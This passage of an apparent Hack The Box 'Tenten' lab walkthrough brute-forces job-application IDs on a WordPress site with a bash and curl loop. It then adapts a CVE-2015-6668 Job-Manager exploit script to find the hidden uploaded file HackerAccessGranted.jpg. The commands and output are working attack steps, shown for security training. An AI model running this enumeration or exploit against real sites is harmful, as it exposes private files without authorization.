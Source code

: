 This script will brute force the year and month to find uploaded files.

```bash
luc@kali:~/HTB/Tenten$ for i in $(seq 1 15); do echo -n "$i: "; curl -s http://10.10.10.10/index.php/jobs/apply/$i/ | grep '<title>'; done
1: <title>Job Application: Hello world! &#8211; Job Portal</title>
2: <title>Job Application: Sample Page &#8211; Job Portal</title>
3: <title>Job Application: Auto Draft &#8211; Job Portal</title>
4: <title>Job Application &#8211; Job Portal</title>
5: <title>Job Application: Jobs Listing &#8211; Job Portal</title>
6: <title>Job Application: Job Application &#8211; Job Portal</title>
7: <title>Job Application: Register &#8211; Job Portal</title>
8: <title>Job Application: Pen Tester &#8211; Job Portal</title>
9: <title>Job Application:  &#8211; Job Portal</title>
10: <title>Job Application: Application &#8211; Job Portal</title>
11: <title>Job Application: cube &#8211; Job Portal</title>
12: <title>Job Application: Application &#8211; Job Portal</title>
13: <title>Job Application: HackerAccessGranted &#8211; Job Portal</title>
14: <title>Job Application &#8211; Job Portal</title>
15: <title>Job Application &#8211; Job Portal</title>
```

We can use this small bash script to brute force items exposed via the Job Manger plugin. `13` shows `HackerAccessGranted` which sounds very interesting so we'll use the Python script we found earlier to search for that file.

```bash
luc@kali:~/HTB/Tenten$ python search.py

CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  

Enter a vulnerable website: http://10.10.10.10
Enter a file name: HackerAccessGranted
```

We get no result when running the Python script.

```bash
luc@kali:~/HTB/Tenten$ nano search.py
...
for year in range(2013,2020):
...
for extension in {'doc','pdf','docx','png','jpeg','jpg'}:
...
luc@kali:~/HTB/Tenten$ python search.py
  
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  

Enter a vulnerable website: http://10.10.10.10
Enter a file name: HackerAccessGranted
[+] URL of CV found! http://10.10.10.10/wp-content/uploads/2017/04/HackerAccessGranted.jpg
```
